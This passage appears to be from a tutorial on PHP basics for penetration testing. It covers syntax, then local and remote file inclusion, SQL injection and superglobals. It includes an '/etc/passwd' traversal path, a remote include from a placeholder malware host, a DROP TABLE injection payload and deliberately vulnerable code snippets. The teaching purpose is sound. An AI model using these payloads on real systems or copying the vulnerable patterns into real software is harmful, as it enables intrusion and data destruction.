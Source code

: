 In this script:

- ```$name``` and ```$age``` are initialized as a string and an integer.

- PHP allows concatenation of different types (string + int).

- Type juggling is shown when the string ```"5"``` is automatically converted to an integer for addition.

- An uninitialized variable is used at the end, which would generate a warning if error reporting is enabled, but the script would still run.

PHP syntax is a mix of C-style languages (like Java or C++) and HTML. Here are some key elements:

- Variables: Start with ```$``` (e.g., ```$name = "Misty";```)

- Functions: Defined using ```function``` (e.g., ```function sayHello() { echo "Hello!"; }```)

- Control structures: ```if```, ```else```, ```while```, ```for```, etc., similar to C-style languages.

- Echoing HTML: You can intermix PHP and HTML easily (e.g., ```<?php echo "<h1>Hello!</h1>"; ?>```).

- Comments: ```//``` for single-line, ```/* */``` for multi-line.

## PHP Basics for Penetration Testing

**1. Common PHP Vulnerabilities**

- LFI (Local File Inclusion): PHP functions like ```include()``` or ```require()``` can allow an attacker to include arbitrary files if the input is not properly sanitized. Example:

```
include($_GET['page']);
```

If ```page``` is set to something like ```../../etc/passwd```, an attacker can read system files.

- RFI (Remote File Inclusion): If an attacker can control the path to a file loaded remotely, they can inject malicious code. This is similar to LFI, but with remote files.

```
include('http://malicious.site/malware.php');
```

- SQL Injection: Insecure handling of SQL queries can allow attackers to inject SQL commands through PHP inputs, leading to database compromise. Example:

```
$query = "SELECT * FROM users WHERE id = " . $_GET['id'];
```

If not properly sanitized, an attacker could append ```'; DROP TABLE users; --``` to drop the entire users table.

**2. PHP Superglobals**

- ```$_GET``` & ```$_POST```: These arrays hold user inputs from query strings or form submissions. Without proper validation, they can introduce security flaws like XSS, SQL Injection, or CSRF.

